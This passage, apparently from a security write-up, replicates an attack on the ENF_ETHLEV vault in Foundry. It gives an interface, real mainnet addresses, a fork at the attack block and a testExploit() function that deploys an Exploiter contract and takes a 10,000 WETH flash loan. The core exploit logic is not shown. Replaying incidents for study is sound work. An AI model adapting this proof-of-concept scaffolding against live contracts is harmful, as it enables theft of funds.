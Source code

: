 Next, we'll replicate the attack process within the Foundry framework. If you're not familiar with Foundry, you can refer to its [documentation](https://book.getfoundry.sh/).

All the code can be found on my [GitHub](https://github.com/descartes100/Web3Hack).

#### **Environment Setup**

* Interface: Prepare the necessary interface for ENF\_ETHLEV.
* Contract Interaction: Set the addresses for WETH, Uniswap V3, ENF\_ETHLEV, and Controller contracts.
* Fork Blockchain: Request an RPC URL from a node service provider like Alchemy, and set the fork block number to the moment when the attack occurred.

```solidity
interface IENF_ETHLEV is IERC20 {
    function deposit(uint256 assets, address receiver) external payable returns(uint256);
    function withdraw(uint256 assets, address receiver) external returns(uint256);
    function convertToAssets(uint256 shares) external view returns(uint256);
    function totalAssets() external view returns(uint256);
}

/**
 * Contract address: 0xfe141c32e36ba7601d128f0c39dedbe0f6abb983
 */
contract ContractTest is Test {
    IWFTM WETH = IWFTM(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));
    Uni_Pair_V3 Pair = Uni_Pair_V3(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    IENF_ETHLEV ENF_ETHLEV = IENF_ETHLEV(0x5655c442227371267c165101048E4838a762675d);
    address Controller = 0xE8688D014194fd5d7acC3c17477fD6db62aDdeE9;
    Exploiter exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", 17875885);
    }
}
```

#### **testExploit()**

* Attack logic is usually written in functions that start with "test." This function will be executed during testing.
* Initialize the Exploiter contract and execute the flashloan.

```solidity
function testExploit() external {
        deal(address(this), 0);
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance before exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );

        exploiter =  new Exploiter();
        emit log_string("==================== Start of attack ====================");
        Pair.flash(address(this), 0, 10_000 ether, abi.encode(10_000 ether));
        emit log_string("==================== End of attack ====================");
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance after exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );
    }
```
